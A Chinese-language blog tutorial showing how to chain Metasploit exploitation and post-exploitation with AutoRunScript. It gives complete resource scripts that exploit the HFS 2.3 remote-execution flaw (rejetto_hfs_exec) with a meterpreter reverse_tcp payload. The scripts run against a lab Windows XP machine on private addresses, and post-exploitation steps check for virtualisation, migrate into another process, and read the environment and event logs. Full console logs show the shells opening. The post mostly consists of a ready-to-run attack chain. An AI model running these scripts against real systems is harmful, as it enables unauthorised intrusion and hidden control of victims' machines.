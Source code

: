 ```yaml
---
layout: post
category: binghe-code-hack
title: 在Metasploit中使用AutoRunScript
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: 在Metasploit中使用AutoRunScript
lock: need
---
```


# 在Metasploit中使用AutoRunScript

Metasploit提供了强大的AutoRunScript工具，可以通过收入show advanced查看AutoRunScript的选项。它可以实现自动化的后渗透测试，只需执行一次就可以获得对目标的控制权限。我们可以通过输入set AutoRunScript [script-name]来设置AutoRunScript的选项，也可以在资源脚本中直接设置，后者一次性自动完成全部渗透操作和后渗透操作。通过使用multi_script和multi_console_command模块，AutoRunScript还可以一次性运行多个后渗透脚本。下面我们来进行实战：

攻击机 kali 192.168.175.128

靶机 WinXP 192.168.175.130

注意：这里的示例中在靶机上部署了HFS 2.3，以攻击HFS2.3的漏洞为例实施的。有关如何部署HFS2.3服务，请参考《[Metasploit实战二之——对威胁建模(附加搭建CVE:2014-6287漏洞环境)](https://blog.csdn.net/l1028386804/article/details/86567192)》。

### 使用AutoRunScript选项中的multiscript模块

#### 创建自动化后渗透脚本multi_script

脚本内容如下：

```
run post/windows/gather/checkvm
run post/windows/manage/migrate
```

这里，我们将脚本multi_script保存到/root/my_scripts目录下。

这个脚本主要用于后渗透测试，实现了checkvm(检查目标系统是否运行在虚拟环境的模块)和migrate(将攻击载荷迁移到安全进程的模块)模块自动化的后渗透脚本。

#### 创建渗透脚本resource_complete

```
use exploit/windows/http/rejetto_hfs_exec
set payload windows/meterpreter/reverse_tcp
set RHOST 192.168.175.130
set RPORT 8080
set LHOST 192.168.175.128
set LPORT 2222
set AutoRunScript multi_console_command -rc /root/my_scripts/multi_script
exploit
```

这个脚本同样保存到/root/my_scripts目录下

这个脚本设置了对HFS文件服务器进行渗透所必需的所有参数，并实现了攻击的自动化，也可以是使用multi_console_command对AutoRunScript进行设置，将multi_console_command设定为-rc，可以执行对个后渗透脚本。

#### 运行渗透脚本resource_complete

```
msfconsole
msf5 > resource /root/my_scripts/resource_complete
[*] Processing /root/my_scripts/resource_complete for ERB directives.
resource (/root/my_scripts/resource_complete)> use exploit/windows/http/rejetto_hfs_exec
resource (/root/my_scripts/resource_complete)> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
resource (/root/my_scripts/resource_complete)> set RHOST 192.168.175.130
RHOST => 192.168.175.130
resource (/root/my_scripts/resource_complete)> set RPORT 8080
RPORT => 8080
resource (/root/my_scripts/resource_complete)> set LHOST 192.168.175.128
LHOST => 192.168.175.128
resource (/root/my_scripts/resource_complete)> set LPORT 2222
LPORT => 2222
resource (/root/my_scripts/resource_complete)> set AutoRunScript multi_console_command -rc /root/my_scripts/multi_script
AutoRunScript => multi_console_command -rc /root/my_scripts/multi_script
resource (/root/my_scripts/resource_complete)> exploit

[*] Started reverse TCP handler on 192.168.175.128:2222 
[*] Using URL: http://0.0.0.0:8080/E9UzLCydhDL
[*] Local IP: http://192.168.175.128:8080/E9UzLCydhDL
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /E9UzLCydhDL
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 1 opened (192.168.175.128:2222 -> 192.168.175.130:1060) at 2019-01-26 10:16:09 +0800
[*] Session ID 1 (192.168.175.128:2222 -> 192.168.175.130:1060) processing AutoRunScript 'multi_console_command -rc /root/my_scripts/multi_script'
[*] Running Command List ...
[!] Tried to delete %TEMP%\xBDTumQie.vbs, unknown result
[*] Server stopped.

meterpreter >
[*] Checking if LIUYAZHUANG is a Virtual Machine .....
[+] This is a VMware Virtual Machine
[*] Running module against LIUYAZHUANG
[*] Current server process: qQbMLQjEENOQL.exe (1592)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 1380
[+] Successfully migrated to process 1380
```

我们看到，checkvm和migrate模块都已经成功执行，目标运行在VMWare上，控制程序也已经成功迁移到了1380进程上。

#### 使用AutoRunScript选项中的multiscript模块

可以使用multiscript模块创建一个后渗透脚本

#### 创建后渗透脚本multi_scr.rc

脚本内容如下:

```
checkvm
migrate -n explorer.exe
get_env
event_manager -i
```

这里，我们同样把这个脚本保存在/root/my_scripts目录下。

#### 创建渗透脚本resource_rc

具体内容如下：

```
use exploit/windows/http/rejetto_hfs_exec
set payload windows/meterpreter/reverse_tcp
set RHOST 192.168.175.130
set RPORT 8080
set LHOST 192.168.175.128
set LPORT 2222
set AutoRunScript multiscript -rc /root/my_script/multi_scr.rc
exploit
```

#### 运行渗透脚本

```
msf5 > resource /root/my_scripts/resource_rc
[*] Processing /root/my_scripts/resource_rc for ERB directives.
resource (/root/my_scripts/resource_rc)> use exploit/windows/http/rejetto_hfs_exec
resource (/root/my_scripts/resource_rc)> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
resource (/root/my_scripts/resource_rc)> set RHOST 192.168.175.130
RHOST => 192.168.175.130
resource (/root/my_scripts/resource_rc)> set RPORT 8080
RPORT => 8080
resource (/root/my_scripts/resource_rc)> set LHOST 192.168.175.128
LHOST => 192.168.175.128
resource (/root/my_scripts/resource_rc)> set LPORT 2222
LPORT => 2222
resource (/root/my_scripts/resource_rc)> set AutoRunScript multiscript -rc /root/my_script/multi_scr.rc
AutoRunScript => multiscript -rc /root/my_script/multi_scr.rc
resource (/root/my_scripts/resource_rc)> exploit

[*] Started reverse TCP handler on 192.168.175.128:2222 
[*] Using URL: http://0.0.0.0:8080/YfmEYmEV9x
[*] Local IP: http://192.168.175.128:8080/YfmEYmEV9x
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /YfmEYmEV9x
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 1 opened (192.168.175.128:2222 -> 192.168.175.130:1065) at 2019-01-27 11:50:34 +0800
[*] Session ID 1 (192.168.175.128:2222 -> 192.168.175.130:1065) processing AutoRunScript 'multiscript -rc /root/my_script/multi_scr.rc'
[!] Tried to delete %TEMP%\bMXpbLteZtoos.vbs, unknown result
[*] Server stopped.

meterpreter > 
```

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
